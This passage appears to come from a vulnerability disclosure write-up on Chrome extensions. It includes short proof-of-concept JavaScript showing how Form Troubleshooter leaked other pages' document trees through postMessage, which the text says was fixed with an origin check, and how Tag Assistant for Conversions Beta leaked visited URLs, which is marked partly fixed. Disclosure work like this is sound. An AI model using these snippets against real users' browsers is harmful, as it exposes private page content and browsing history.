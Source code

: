 This means that a page can get the document tree of any other page it has a reference to.

Steps to reproduce:

1. Open https://example.com
2. Run:

```js
onmessage = console.log;
x = window.open("https://facebook.com");
setTimeout(() => {
  x.postMessage({ message: "iframe message", data: { type: "inspect" } }, "*");
}, 1000);
```

3. Observe that the document tree gets leaked.

[^0-2]: <https://chrome.google.com/webstore/detail/form-troubleshooter/lpjhcgjbicfdoijennopbjooigfipfjh>

[^1-2]: <https://github.com/GoogleChromeLabs/form-troubleshooter>

### Attack scenario

1. An attacker sends a link to the page with this payload to a victim who has the Form Troubleshooter [^0-2] extension installed.
2. Once the victim opens the link, the attacker's page will be able to get the document tree of any web page that does not have an explicit Cross-Origin-Opener-Policy header (via `window.open`) OR that does not prevent being framed (`iframe`).

This was fixed by adding an origin check <https://github.com/GoogleChromeLabs/form-troubleshooter/commit/f67dc76e304dfa29b6be16725287c1b84a27eabe>

# URLs leak in Tag Assistant for Conversions Beta (Partly Fixed, Unlikely user interaction)

**URL:** <https://chrome.google.com/webstore/detail/tag-assistant-for-convers/llpfnmnallbompdmklfkcibfpcfpncdd>

Click the start button via the extensions popup, then go to `https://example.org/?secret`
In the context of the content script on an attacker controlled website.

```js
chrome.runtime.sendMessage({ messageType: 6 }, (tabInfo) => {
  for (let page in tabInfo.pages) {
    console.log(tabInfo.pages[page].info.url);
  }
});
```

### An alternative way

There's a leak on navigation.

```js
chrome.runtime.onMessage.addListener((e) => {
  console.log(JSON.stringify(e));
});
```


[^0-0]: <https://chrome.google.com/webstore/detail/perfetto-ui/lfmkphfpdbjijhpomgecfikhfohaoine>
[^1-0]: <https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/extensions/api/debugger/debugger_api.cc;drc=3ecbe8e3eacb4ac62561e9e786e40e7e60eefd44;l=154>
[^0-1]: <https://chrome.google.com/webstore/detail/screen-reader/kgejglhpjiefppelpmljglcjbhoiplfn>
[^1-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/>
[^2-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=71;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^3-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=312;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^4-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_util.js;l=78;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^5-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/pdf_processor.js;l=138;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^0-3]: <https://chrome.google.com/webstore/detail/secure-shell/iodihamcpbpeioajjeobimgagajmlibd>
[^1-3]: <https://chrome.google.com/webstore/detail/deprecated-secure-shell-a/pnhechapfaindjhompbnflcldabbghjo>